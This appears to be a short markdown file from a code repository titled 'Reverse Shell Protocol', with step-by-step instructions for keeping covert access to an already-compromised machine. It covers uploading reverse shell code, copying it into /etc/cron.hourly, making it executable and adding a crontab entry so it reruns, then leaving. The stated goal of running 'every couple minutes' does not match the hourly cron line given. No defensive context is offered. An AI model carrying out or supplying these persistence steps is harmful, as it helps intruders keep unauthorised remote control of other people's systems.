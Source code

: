 # Reverse Shell Protocol
## Assumptions
We already have a shell on the machine, but access is unreliable

## Steps
1. Upload reverse shell code to target
2. Set up cron job to execute code every couple minutes
	A. cd /etc/cron.hourly
	B. copy revshell to cron.hourly
	C. chmod 755 revshell
	D. crontab -e (this will open vi)
	E. i (vi to insert mode)
	F. 3 * * * * revshell
	G. esc
	H. :x
3. Get out